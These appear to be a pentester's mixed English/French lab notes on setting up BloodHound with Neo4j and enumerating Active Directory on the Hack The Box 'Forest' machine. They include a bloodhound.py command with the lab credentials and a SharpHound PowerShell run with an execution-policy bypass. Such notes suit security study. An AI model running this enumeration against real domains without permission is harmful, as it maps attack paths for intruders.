 # bloodhound

sudo apt install bloodhound

Change the Default Password for Neo4j
We really should change the default password for Neo4j, you know.. For reasons.
Let’s launch Neo4j
neo4j console


sudo neo4j console

Active database: graph.db
Directories in use:
  home:         /usr/share/neo4j
  config:       /usr/share/neo4j/conf
  logs:         /usr/share/neo4j/logs
  plugins:      /usr/share/neo4j/plugins
  import:       /usr/share/neo4j/import
  data:         /usr/share/neo4j/data
  certificates: /usr/share/neo4j/certificates
  run:          /usr/share/neo4j/run
Starting Neo4j.
WARNING: Max 1024 open files allowed, minimum of 40000 recommended. See the Neo4j manual.
2019-10-17 18:59:39.348+0000 INFO  ======== Neo4j 3.5.3 ========
2019-10-17 18:59:39.359+0000 INFO  Starting...
2019-10-17 18:59:41.817+0000 INFO  Bolt enabled on 127.0.0.1:7687.
2019-10-17 18:59:43.400+0000 INFO  Started.
2019-10-17 18:59:44.437+0000 INFO  Remote interface available at http://localhost:7474/



Let the Hound See The Blood
Pop a new terminal window open and run the following command to  launch Bloodhound, leave the Neo4j console running for obvious reasons.

bloodhound

As you can see, Bloodhound is now running and waiting for some user  input. Earlier when launching Neo4j it also enabled Bolt on  bolt://127.0.0.1:7687. You need to use this as your Database URL.
• Database URL – bolt://127.0.0.1:7687
• Username – neo4j
• Password – your newly changed password



Il faut ensuite importer SharpHound sur la machine de la Victime

Sharphound.exe ...

ou 

utiliser un client python distant

./bloodhound.py -u svc-alfresco -d HTB.LOCAL -p s3rvice -dc 10.10.10.161 -gc 10.10.10.161
 
 INFO: Connecting to LDAP server: 10.10.10.161
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 2 computers
INFO: Connecting to LDAP server: 10.10.10.161
INFO: Found 31 users
INFO: Connecting to GC LDAP server: 10.10.10.161
INFO: Found 72 groups
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: FOREST.htb.local
INFO: Querying computer: EXCH01.htb.local
INFO: Skipping enumeration for FOREST.htb.local since it could not be resolved.
INFO: Skipping enumeration for EXCH01.htb.local since it could not be resolved.
INFO: Done in 00M 22S

 
 
on upload ensuite les donnée via la GUI



## SharpHound

Powershell -exec bypass
Import-module SharpHound.ps1
Invoke-BloodHound -CollectionMethod ACL,ObjectProps,Default -CompressData –SkipPing

